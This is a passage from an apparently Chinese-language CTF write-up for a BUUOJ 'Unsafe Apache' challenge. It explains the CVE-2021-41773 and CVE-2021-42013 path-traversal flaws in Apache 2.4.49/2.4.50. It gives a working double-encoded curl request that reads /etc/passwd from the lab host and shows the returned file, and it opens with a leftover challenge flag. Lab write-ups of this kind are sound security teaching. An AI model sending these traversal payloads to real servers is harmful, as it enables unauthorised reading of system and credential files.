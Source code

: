 ```plain
flag{4a7e06cd-29ab-491c-a1ff-478427e3b92a}
```

### Unsafe Apache

靶机地址为 `node4.buuoj.cn:27256`，访问靶机，内容仅仅是

```html
<html><body><h1>It works!</h1></body></html>
```

没有什么可以传参或上传的地方。

查看响应标头

```http
Accept-Ranges: bytes
Connection: keep-alive
Date: Fri, 21 Oct 2022 15:12:37 GMT
Etag: "2d-432a5e4a73a80"
Keep-Alive: timeout=4
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
Proxy-Connection: keep-alive
Server: Apache/2.4.50 (Unix)
```

发现 Web 服务器为 Apache，版本为 2.4.50（使用 Wappalyzer 可快速得知该信息）。

Apache 2.4.49 和 2.4.50 版本存在路径穿越和远程代码执行漏洞，即可以通过特定手段访问类似 `http(s)://ip:port/dir/../../../etc/passwd` 的地址读取到 Web 服务根目录以外的文件（`dir` 必须存在且可访问）。

#### CVE-2021-41773

Apache 2.4.49 使用的 `ap_normalize_path` 函数解析路径时会对路径进行 URL 解码，然后过滤掉 `../` 等路径穿越符。

但是该函数对路径穿越符的过滤是通过检测解析后的点号后面是否存在 `.`，因此 `%2e.` 会被过滤而 `.%2e` 和 `%2e%2e` 不会（估计作者当时是考虑文件后缀名忽略了 `..` 的情况）

#### CVE-2021-42013

Apache 2.4.50 的修复并不彻底，虽然过滤了 `.%2e` `%2e%2e` 但是…… 二次编码仍然可以绕过。

`2` 的 URLEncode 结果为 `%32`，故我们可以用 `.%%32e` 或者 `%%32e%%32e` 进行路径穿越。

#### 路径穿越测试

访问 `http://node4.buuoj.cn:27256/icons/a.png` 得到图片，可知存在 `icons` 目录。

执行（`.%%32e/` 写多点以确保到达根目录）：

```bash
curl http://node4.buuoj.cn:27256/icons/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd
```

返回

```plain
root{?:}x{?:}0:0:root:/root:/bin/bash
daemon{?:}x{?:}1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin{?:}x{?:}2:2:bin:/bin:/usr/sbin/nologin
sys{?:}x{?:}3:3:sys:/dev:/usr/sbin/nologin
sync{?:}x{?:}4:65534:sync:/bin:/bin/sync
games{?:}x{?:}5:60:games:/usr/games:/usr/sbin/nologin
man{?:}x{?:}6:12:man:/var/cache/man:/usr/sbin/nologin
lp{?:}x{?:}7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail{?:}x{?:}8:8:mail:/var/mail:/usr/sbin/nologin
news{?:}x{?:}9:9:news:/var/spool/news:/usr/sbin/nologin
uucp{?:}x{?:}10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy{?:}x{?:}13:13:proxy:/bin:/usr/sbin/nologin
www-data{?:}x{?:}33:33:www-data:/var/www:/usr/sbin/nologin
backup{?:}x{?:}34:34:backup:/var/backups:/usr/sbin/nologin
```